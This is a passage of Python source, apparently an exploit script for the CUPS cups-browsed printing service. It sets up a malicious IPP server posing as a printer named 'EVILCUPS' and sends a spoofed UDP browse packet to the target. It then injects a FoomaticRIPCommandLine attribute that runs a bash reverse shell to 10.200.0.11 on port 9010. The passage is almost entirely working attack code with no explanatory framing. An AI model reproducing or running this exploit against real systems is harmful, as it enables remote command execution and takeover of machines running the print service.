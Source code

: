 ```python
                TagEnum.keyword
            ): [b'none'],
            (
                SectionEnum.printer,
                b'printer-more-info',
                TagEnum.uri
            ): [f'"\n*FoomaticRIPCommandLine: "{self.command}"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'.encode()],

        }
        attr.update(super().minimal_attributes())
        return attr

    def operation_printer_list_response(self, req, _psfile):
        print("\ntarget connected, sending payload ...")
        attributes = self.printer_list_attributes()
        return IppRequest(
            self.version,
            StatusCodeEnum.ok,
            req.request_id,
            attributes)


def send_browsed_packet(ip, port, ipp_server_host, ipp_server_port):
    print(f"Sending udp packet to {ip}:{port}...")
    printer_type = 2
    printer_state = '3'
    printer_uri = f'http://{ipp_server_host}:{ipp_server_port}/printers/EVILCUPS'
    printer_location = '"HackingPlace"'
    printer_info = '"dy_hacked"'
    printer_model = '"dy LaserJet HackMe"'
    packet = f"{printer_type:x} {printer_state} {printer_uri} {printer_location} {printer_info} {printer_model} \n"

    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.sendto(packet.encode('utf-8'), (ip, port))

def run_server(server):
    with ServerContext(server):
        try:
            while True:
                time.sleep(.5)
        except KeyboardInterrupt:
            pass

    server.shutdown()


if __name__ == "__main__":

    SERVER_HOST = "10.200.0.11"
    SERVER_PORT = 12345

    command = 'bash -c "bash -i >& /dev/tcp/10.200.0.11/9010 0>&1"'

    server = IPPServer((SERVER_HOST, SERVER_PORT),
                       IPPRequestHandler, MaliciousPrinter(command))

    threading.Thread(
        target=run_server,
        args=(server, )
    ).start()

```